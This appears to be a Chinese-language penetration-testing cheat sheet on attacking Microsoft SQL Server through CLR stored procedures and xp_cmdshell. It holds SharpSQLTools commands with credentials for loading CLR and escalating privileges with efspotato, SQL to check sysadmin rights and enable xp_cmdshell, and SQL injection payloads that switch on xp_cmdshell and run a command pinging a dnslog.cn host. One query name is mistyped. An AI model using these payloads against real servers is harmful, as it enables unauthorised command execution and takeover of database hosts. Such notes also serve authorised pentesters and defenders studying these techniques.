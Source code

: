 ------



#### 本地存储过程

- 本地存储过程指用户创建的自定义存储过程.如:`CLR`

- `CLR`:公共语言基础结构(Common Language Infrastructure),用来支持不同的编程语言.sql server集成了该组件,可以通过sql server执行编写CLR执行系统命令

- SharpSQLTools实现上传下载文件,`xp_cmdshell`与`sp_oacreate`双回显和clr加载程序执行响应的操作

- ```sql
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master install_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master clr_efspotato whoami
  ```

  ##### xp_cmdshell`利用`

  - 当前用户拥有`DBA权限`
  - 依赖于`xplog70.dll`
  - 存储过程`存在`并`已启用`

- xp_cmdshell存储过程可以执行系统命令,默认支持输出执行结果

- 从`MSSQL_2005`版本之后默认处于禁用状态,可以使用`sp_configure`来启用或者禁用`xp_cmdshell`

```sql
#xp_cmdshell利用

#判断当前是否为DBA权限,返回1即为sysadmin
select IS_SRVROLEMEMBER('sysadmin');
#查看是否存在xp_cmdshell,返回1则存在
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshellhell'
#开启xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
#关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',0;RECONFIGURE;


#SQL注入+xp_cmdshell利用

#查看是否禁用xp_cmdshell
id=0'union select 1,2,count(*) from master..sysobjects where xtype='X' and name='xp_cmdshell' --+ 
id=1'and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell') --+

#开启xp_cmdshell
id=0';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE; --+

#执行命令
id=1';exec master.sys.xp_cmdshell 'ping -n 1 d3rymk.dnslog.cn' --+
```
